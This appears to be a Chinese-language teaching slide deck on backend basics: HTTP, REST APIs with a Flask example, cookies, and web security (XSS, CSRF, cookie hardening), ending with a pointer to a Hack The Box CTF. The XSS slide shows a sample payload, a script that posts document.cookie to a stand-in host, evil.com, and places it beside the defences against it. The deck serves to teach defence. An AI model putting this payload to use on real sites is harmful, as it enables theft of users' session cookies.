




# API 的世界

從後端基礎到資訊安全

**tantuyu**

<div class="abs-br m-6 text-sm opacity-50">
  2026
</div>

---

## transition: fade-out

# 什麼是後端（Backend）？

**後端**就是在伺服器端發生的一切

<div class="grid grid-cols-2 gap-8 mt-4">
<div>

### 餐廳比喻

| 餐廳   | 網頁應用程式    |
| ------ | --------------- |
| 顧客   | 使用者 / 瀏覽器 |
| 服務生 | API             |
| 廚房   | 後端伺服器      |
| 食譜   | 資料庫          |

</div>
<div>



</div>
</div>

<v-click>

> 使用者永遠看不到廚房 — 他們只會和**服務生**（API）互動。

</v-click>

---

# 網頁如何運作

一個簡單的 HTTP 請求/回應循環

<div class="mt-4">



</div>

<v-clicks>

- **HTTP** — 瀏覽器和伺服器用來溝通的協定
- **請求（Request）** — 客戶端發送的內容（方法、URL、標頭、主體）
- **回應（Response）** — 伺服器回傳的內容（狀態碼、標頭、主體）

</v-clicks>

---

# HTTP 方法

網頁的動詞

<div class="mt-2 text-sm">

| 方法     | 用途     | 範例               | 安全？ |
| -------- | -------- | ------------------ | ------ |
| `GET`    | 讀取資料 | 取得使用者個人檔案 | 是     |
| `POST`   | 建立資料 | 註冊新使用者       | 否     |
| `PUT`    | 取代資料 | 更新整個個人檔案   | 否     |
| `PATCH`  | 部分更新 | 只修改電子郵件     | 否     |
| `DELETE` | 刪除資料 | 刪除帳號           | 否     |

</div>

<v-click>

```http
GET /api/users/42 HTTP/1.1
Host: example.com
```

</v-click>

<v-click>

> 用 **CRUD** 來記憶：Create = POST、Read = GET、Update = PUT/PATCH、Delete = DELETE

</v-click>

---

# HTTP 狀態碼

伺服器告訴你發生了什麼事

<div class="grid grid-cols-2 gap-6 mt-2 text-sm">
<div>

| 狀態碼 | 意義           |
| ------ | -------------- |
| `200`  | 成功           |
| `201`  | 已建立         |
| `204`  | 無內容         |
| `301`  | 永久轉址       |
| `400`  | 錯誤的請求     |
| `401`  | 未授權         |
| `403`  | 禁止存取       |
| `404`  | 找不到         |
| `500`  | 伺服器內部錯誤 |

</div>
<div v-click>

### 簡單記憶法

- **2xx** — 一切正常
- **3xx** — 去別的地方
- **4xx** — 你搞砸了
- **5xx** — 我們搞砸了

```json
{
  "status": 404,
  "error": "User not found",
  "message": "No user with id 999"
}
```

</div>
</div>

---

layout: center
class: text-center

---

# 第二部分：RESTful API

驅動現代網頁的架構

---

# 什麼是 REST？

**RE**presentational **S**tate **T**ransfer（表現層狀態轉換）

<div class="mt-2">

<v-clicks>

- 是一種**架構風格**，不是協定或標準
- 由 Roy Fielding 在 2000 年的博士論文中提出
- 使用 HTTP 作為傳輸層
- 資源透過 **URL** 來識別
- 操作透過 **HTTP 方法**來表達
- 資料通常以 **JSON** 格式交換

</v-clicks>

</div>

<v-click>

```
https://api.example.com/users/42/posts/7
         └─ 主機 ──────┘└─ 資源 ──────┘
```

</v-click>

---

# REST 原則

讓 API 成為「RESTful」的 6 個約束

<div class="grid grid-cols-2 gap-4 mt-2 text-sm">

<div>

<v-clicks>

### 1. 客戶端-伺服器

將使用者介面與資料儲存分離

### 2. 無狀態（Stateless）

每個請求包含所有必要資訊，伺服器不儲存工作階段

### 3. 可快取（Cacheable）

回應必須定義是否可以被快取

</v-clicks>

</div>
<div>

<v-clicks>

### 4. 統一介面（Uniform Interface）

一致的 URL、方法和回應格式

### 5. 分層系統（Layered System）

客戶端無法分辨是直連伺服器還是代理

### 6. 按需程式碼（Code on Demand，選用）

伺服器可傳送可執行的程式碼

</v-clicks>

</div>
</div>

---

# 設計 RESTful API

實際範例：部落格 API

<div class="mt-2 text-sm">

| 動作         | 方法     | 端點                      | 主體                 |
| ------------ | -------- | ------------------------- | -------------------- |
| 列出所有文章 | `GET`    | `/api/posts`              | —                    |
| 取得單篇文章 | `GET`    | `/api/posts/:id`          | —                    |
| 建立文章     | `POST`   | `/api/posts`              | `{ title, content }` |
| 更新文章     | `PUT`    | `/api/posts/:id`          | `{ title, content }` |
| 刪除文章     | `DELETE` | `/api/posts/:id`          | —                    |
| 列出文章留言 | `GET`    | `/api/posts/:id/comments` | —                    |

</div>

---

### 好的 vs 不好的 URL 設計

<v-clicks>

```
GET /api/posts/42/comments
```

```
GET /api/getCommentsByPostId?id=42
```

</v-clicks>

---

# RESTful API 實作

一個簡單的 Python Flask 範例（一）

```python {all|1-2|4-5|7-10|all}
from flask import Flask, jsonify, request
app = Flask(__name__)

users = []
next_id = 1

# GET — 讀取所有使用者
@app.get("/api/users")
def get_users():
    return jsonify(users)
```

---

```python{all|1-8|10-14|all}
# POST — 建立使用者
@app.post("/api/users")
def create_user():
    global next_id
    user = {"id": next_id, **request.json}
    next_id += 1
    users.append(user)
    return jsonify(user), 201

# DELETE — 刪除使用者
@app.delete("/api/users/<int:user_id>")
def delete_user(user_id):
    users[:] = [u for u in users if u["id"] != user_id]
    return "", 204
```

---

# JSON — API 的語言

JavaScript Object Notation（JavaScript 物件表示法）

<div class="grid grid-cols-2 gap-6 mt-2">
<div>

### 請求主體（POST）

```json
{
  "name": "Alice",
  "email": "alice@example.com",
  "role": "admin"
}
```

</div>
<div>

### 回應主體（GET）

```json
{
  "id": 42,
  "name": "Alice",
  "email": "alice@example.com",
  "role": "admin",
  "createdAt": "2026-03-24T10:00:00Z"
}
```

</div>
</div>

<v-click>

### 為什麼用 JSON？

<div class="text-sm">

人類可讀 / JavaScript 原生支援 / 比 XML 更輕量 / 幾乎所有程式語言都支援

</div>

</v-click>

---

layout: center
class: text-center

---

# 第三部分：Cookie

記住你是誰的小檔案

---

# 什麼是 Cookie？

儲存在瀏覽器中的小資料，每次請求時自動送出

<div class="mt-2">



</div>

<v-click>

> 沒有 Cookie，伺服器每次請求後都會忘記你 — 因為 **HTTP 是無狀態的**。

</v-click>

---

# Cookie 如何運作

`Set-Cookie` 回應標頭

```http {all|1-2|4-5|7-8|all}
# 伺服器設定 Cookie
Set-Cookie: session=abc123; Path=/; HttpOnly; Secure; SameSite=Strict

# 瀏覽器自動在每次請求時送回
Cookie: session=abc123

# 伺服器可以設定多個 Cookie
Set-Cookie: theme=dark; Path=/; Max-Age=31536000
```

<div class="mt-2 text-sm">

| 屬性                  | 用途                      |
| --------------------- | ------------------------- |
| `Path`                | Cookie 適用的 URL 範圍    |
| `Domain`              | 哪個網域可以讀取此 Cookie |
| `Max-Age` / `Expires` | Cookie 何時過期           |
| `HttpOnly`            | JavaScript 無法存取       |
| `Secure`              | 只透過 HTTPS 傳送         |
| `SameSite`            | 控制跨站傳送行為          |

</div>

---

# Cookie 的種類

不是所有 Cookie 都一樣

<div class="grid grid-cols-2 gap-6 mt-2 text-sm">
<div>

### 工作階段 Cookie（Session）

- 沒有 `Expires` 或 `Max-Age`
- 關閉瀏覽器時刪除
- 用於登入工作階段

### 持久性 Cookie（Persistent）

- 有過期日期，瀏覽器重啟後仍存在
- 用於「記住我」功能

</div>
<div>

### 第一方 Cookie（First-Party）

- 由你正在瀏覽的網站設定
- 用於驗證、偏好設定，通常受信任

### 第三方 Cookie（Third-Party）

- 由不同網域設定（廣告、追蹤器）
- 用於跨站追蹤，正被各瀏覽器逐步淘汰

</div>
</div>

```http
Set-Cookie: session=abc123; HttpOnly              # Session Cookie
Set-Cookie: token=xyz; Max-Age=2592000            # Persistent Cookie
```

---

# Cookie vs Token vs Session

比較不同的身份驗證方式

<div class="mt-2 text-xs">

|           | Cookie 工作階段          | JWT Token                    | API Key        |
| --------- | ------------------------ | ---------------------------- | -------------- |
| 儲存位置  | 瀏覽器 Cookie            | LocalStorage / Cookie        | 客戶端設定     |
| 傳送方式  | `Cookie` 標頭（自動）    | `Authorization` 標頭（手動） | 標頭或查詢參數 |
| 有狀態？  | 是（伺服器儲存工作階段） | 否（自包含）                 | 否             |
| 過期      | 伺服器控制               | Token 內建                   | 手動輪換       |
| CSRF 風險 | 有                       | 無（若在標頭中）             | 無             |
| XSS 風險  | 無（若有 HttpOnly）      | 有（若在 localStorage）      | 有             |

</div>

<v-click>

> 每種方式都有取捨 — 正確的選擇取決於你的安全需求。

</v-click>

---

layout: center
class: text-center

---

# 第四部分：資訊安全

保護你的 API 和 Cookie

---

# 跨站腳本攻擊（XSS）

當攻擊者注入惡意腳本

<div class="grid grid-cols-2 gap-4 mt-2 text-sm">
<div>

### 攻擊方式

```js
// 攻擊者發表一則留言：
<script>
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: document.cookie
  })
</script>
```

未經跳脫就渲染，腳本會在**所有使用者**裝置上執行。

</div>
<div v-click>

### 防禦方式

```js
// 1. 跳脫輸出
const safe = escapeHtml(userInput);

// 2. 內容安全政策（CSP）
// Content-Security-Policy: script-src 'self'

// 3. HttpOnly Cookie → JS 無法讀取

// 4. 使用自動跳脫的框架
// （React、Vue、Angular）
```

</div>
</div>

---

# 跨站請求偽造（CSRF）

欺騙瀏覽器代替你發送請求

<div class="mt-2">



</div>

<v-click>

<div class="text-sm">

### 防禦方式

- **SameSite Cookie** — `SameSite=Strict` 或 `SameSite=Lax`
- **CSRF Token** — 每個表單一個獨特的 Token，由伺服器端驗證
- **檢查 `Origin` / `Referer` 標頭** — 拒絕跨來源請求

</div>

</v-click>

---

# Cookie 安全最佳實踐

防禦性地設定你的 Cookie

```http
Set-Cookie: session=abc123;
  HttpOnly;          # 阻擋 JS 存取（防 XSS）
  Secure;            # 只透過 HTTPS 傳送
  SameSite=Lax;      # 防止 CSRF
  Path=/;            # 適用整個網站
  Max-Age=3600       # 1 小時後過期
```

<div class="grid grid-cols-2 gap-6 mt-2 text-sm">
<div v-click>

### 應該做的

- 對工作階段 Cookie 使用 `HttpOnly`
- 在正式環境使用 `Secure`
- 設定 `SameSite` 為 `Lax` 或 `Strict`
- 設定較短的過期時間
- 登入後輪換工作階段 ID

</div>
<div v-click>

### 不應該做的

- 在 Cookie 值中儲存敏感資料
- 在 HTTP 上不設 `Secure`
- 無正當理由設定 `SameSite=None`
- 不經伺服器驗證就信任 Cookie 資料
- 登出時忘記讓 Cookie 過期

</div>
</div>

---

# API 安全檢查清單

保護你的 API 的必要措施

<div class="grid grid-cols-2 gap-4 mt-2 text-sm">
<div>

### 身份驗證與授權

- 全面使用 HTTPS
- 實作速率限制
- 正確驗證 JWT
- 每次請求都檢查權限

### 輸入驗證

- 在伺服器端驗證所有輸入
- 使用參數化查詢（防 SQL 注入）
- 限制請求大小、過濾檔案上傳

</div>
<div>

### 標頭與傳輸

- 設定 `Content-Type: application/json`
- 正確使用 CORS（不要用 `*`）
- 加入安全標頭（CSP、HSTS）
- 停用不需要的 HTTP 方法

### 監控

- 記錄所有身份驗證事件
- 監控異常模式
- 設定登入失敗警報
- 持續更新依賴套件

</div>
</div>

---

layout: center
class: text-center

---

# 重點整理

<div class="grid grid-cols-3 gap-6 mt-4 text-left text-sm">
<div>

### API

- 使用 RESTful 設計
- 正確的 HTTP 方法與狀態碼
- 伺服器端驗證一切

</div>
<div>

### Cookie

- HttpOnly + Secure + SameSite
- 使用工作階段 Cookie 做身份驗證
- 設定較短的過期時間

</div>
<div>

### 安全性

- 縱深防禦
- 永遠不要信任客戶端
- 了解常見攻擊手法

</div>
</div>

---

layout: center
class: text-center

---

# CTF Time

<div v-click>
  <p class="inline-flex">
    But <a href="https://ctf.hackthebox.com/" class="ml-1" target="_blank" rel="noopener noreferrer">Hack The Box CTF</a>
  </p>
</div>

---

layout: center
class: text-center

---

[CTF Try Out](https://ctf.hackthebox.com/event/details/ctf-try-out-1434)

`Web` `Very Eazy`

---

layout: center
class: text-center

---

# 謝謝

<div class="mt-8 text-sm opacity-60">

</div>
